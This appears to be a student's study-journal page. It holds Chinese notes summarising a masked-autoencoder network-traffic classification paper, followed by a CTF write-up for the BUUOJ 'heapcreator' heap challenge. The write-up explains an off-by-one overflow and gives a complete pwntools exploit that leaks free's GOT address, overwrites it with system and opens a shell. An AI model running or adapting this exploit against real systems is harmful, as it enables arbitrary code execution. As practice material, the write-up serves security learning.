



# 2024-1-28

## Yet Another Traffic Classifier: A Masked Autoencoder Based Traffic Transformer with Multi-Level Flow Representation

### 工作摘要

该论文设计了一个MFR矩阵，通过格式化的矩阵来表示原始流量的多层次信息，并开发了一种新的流量Transformer，以实现在各个层次上更有效的特征提取。为了减少对标记数据的依赖，该论文利用了大规模的未标记数据进行预训练，然后使用少量标记数据进行流量分类。

### 论文思路

预训练方法通过自监督学习显著降低了对标记训练数据的需求，对于流量分类通常将其视为某种语句利用NLP的方法进行预训练。但由于流量字节缺乏明显的高级语义，所以使用CV来提取流量字节的潜在含义更为合适。

但在CV中以往的与训练方法依赖于数据增强以形成成对的正样本和负样本，用于通过对比学习进行预训练。但流量数据的数据增强会严重破坏原始信息无法进行对比学习，而MAE方法则可以通过掩蔽用于中间训练的补丁来构造有效的流量数据预训练模型



#### MFR矩阵

该方法使用了一个MFR矩阵与格式化的二维矩阵来表示原始流量，首先根据IP地址、端口号和协议类型将原始流量拆分为流。为了避免引入干扰，该方法会删除流的以太网报头，将端口号设置为零，并将IP替换为随机地址，但保持其传播方向。最后，捕获流中的$M$个相邻分组，并将其格式化为大小为$H*W$的二维矩阵。该矩阵拥有以下三种特征

1. 字节层面：MFR流量矩阵中每一行仅包括一种类型的流量字节，分为报头行和有效载荷行
2. 分组层面：每个分组由包头矩阵和有效载荷矩阵表示，形成大小为$H/M*W$的分组级矩阵
3. 流量层面：由于流是由有序的数据包组成的，因此M个相邻的数据包级矩阵在第二维中堆叠以形成最终的MFR矩阵。

该文将MFR矩阵设置为包含5个数据包的矩阵，总共40行，每行包含40个字节。每个数据包的报头由2个80字节的报头行表示，能够包含IP层报头（20字节）、TCP报头（20字节）或UDP报头（8字节）以及可选报头。为每个数据包的有效载荷分配6个有效载荷行，并在超过240字节时执行截断。如果有效字节数不足，则将用0字节填充。

#### Traffic Transformer

根据流量的特点，设计了由嵌入模块、数据包级注意力模块和流级注意力模块组成的Traffic Transformer，并利用MFR矩阵对流量进行有效分类。

##### 嵌入模块

MFR矩阵 $x∈R^{H \times W}$ 会被分成大小为 $P \times P$ 非重叠2D补丁， 数量为 $N=HW/P^2$ ,表示为 $x_p∈R^{N \times P^2}$。然后通过线性层将补丁映射到 $D$ 维向量作为补丁嵌入。为了保持在MFR中至关重要的位置信息，将位置嵌入 $E_{pos}$ 添加到补丁嵌入中作为业务编码器的输入。


$$
x_0 = [x^1_pE;x^2_pE;...;x_p^NE] + E_{pos}
$$
在本文中作者取 $D = 192，P = 2，N = 20*20 = 400$使一个补丁的所有元素都表示相同类型的原始字节，每个包矩阵包含一行报头补丁和三行有效载荷补丁。

##### 数据包级注意力模块

该模块使用了一种基于Vision Transformers的流量编码器

它由交替的多头自注意层（MSA）和前馈层组成。为了优先学习分组内的报头补丁或有效载荷补丁之间的依赖性，业务编码器仅在同一分组中的补丁之间而不是MFR矩阵中的所有补丁之间执行多头自注意。

MSA层允许数据包的补丁根据不同头 $Concat（head1，· · ·，headn）$ 的相关程度有效地相互交互，并且每个头由注意力函数计算：


$$
Q=x_lW^Q,K=x_lW^K,V=x_lW^V
\\
Attn(Q,K,V)=SOFTMAX(  \frac{QK^T}{\sqrt D_k})V
$$
其中$W^Q、W^K、W^V ∈ R^{D×D_k}$是可学习的参数。在这项工作中采用 $n = 16$ 平行注意头和 $L = 4$ 交替层。

##### 流级注意力模块

数据包级注意力模块输出了MFR矩阵 $x∈R^{H \times W}$ 中每个补丁的重要数据包级特征，为了进一步提取数据流上不同包的长距离关系依赖，该文中为了以更粗的粒度学习数据包间的关系采用了行池化（RP），它按行将数据包级注意力模块所输出的补丁的特征进行部分平均池化来生成行补丁。


$$
x_r=Pooling(x^{'}_p)
$$


每个分组包含1个报头行补丁和3个有效载荷行补丁，表示分组内的部分特征，将MFR矩阵中的所有行补丁输入到流量编码器中，MSA层捕获行补丁之间的流级信息。最终输出是一列行补丁特征$x_c ∈ R^{\sqrt{N}×D}$，这些行补丁特征进一步被执行列池化（CP）以获得整个MFR矩阵的最终表示 $x_{MFR} ∈ R^D$：


$$
x_{MFR}=Pooling(x_c)
$$


## Pwn


进入主函数之后是一个功能选取界面，分别是开辟空间，编辑空间，展示空间，释放空间。



进入空间开品函数内部，这里一次会开辟两个空间，第一个是0x10大小的空间，分别存储开辟空间的大小和地址，接着正常开辟空间。



进入编辑函数我们可以看见他会根据第一个创建空间中的信息进行空间编辑，并且写入的大小会造成**off by one**漏洞，我们可以多输入一个字节来修改空间的大小，我们可以开辟一个0x18大小的空间，这样溢出的字节就可以修改下一个控制空间的大小。这样我们就可以控制下一个控制空间，将其大小改为8，地址改为free的got表，进行输出和修改进行攻击

```python
from pwn import *
from LibcSearcher import LibcSearcher
sh=remote("node4.buuoj.cn",25191)
elf=ELF('./heapcreator')

def create(length,value):
        sh.recvuntil("Your choice :")
        sh.sendline("1")
        sh.recvuntil("Size of Heap : ")
        sh.sendline(str(int(length)))
        sh.recvuntil("Content of heap:")
        sh.sendline(value)
def edit(index,value):
        sh.recvuntil("Your choice :")
        sh.sendline("2")
        sh.recvuntil("Index :")
        sh.sendline(str(int(index)))
        sh.recvuntil("Content of heap : ")
        sh.sendline(value)
def show(index):
        sh.recvuntil("Your choice :")
        sh.sendline("3")
        sh.recvuntil("Index :")
        sh.sendline(str(int(index)))
def delete(index):
    sh.recvuntil('Your choice :')
    sh.sendline('4')
    sh.recvuntil(b'Index :')
    sh.sendline(str(int(index)))

create(0x18,b'aaaa')
create(0x10,b'bbbb')
create(0x10,b'cccc')
create(0x10,b'/bin/sh')

edit(0,b'a'*0x18+b'\x81')
delete(1)

size = b'\x08'.ljust(8,b'\x00')
payload = b'd'*0x40+ size + p64(elf.got['free'])
create(0x70,payload)
show(2)
sh.recvuntil('Content : ')
free_addr = u64(sh.recvuntil('Done')[:-5].ljust(8,b'\x00'))
print(hex(free_addr))
libc=LibcSearcher("free",free_addr)
system_addr=free_addr+libc.dump("system")-libc.dump("free")

edit(2,p64(system_addr))
delete(3)
sh.interactive()
```

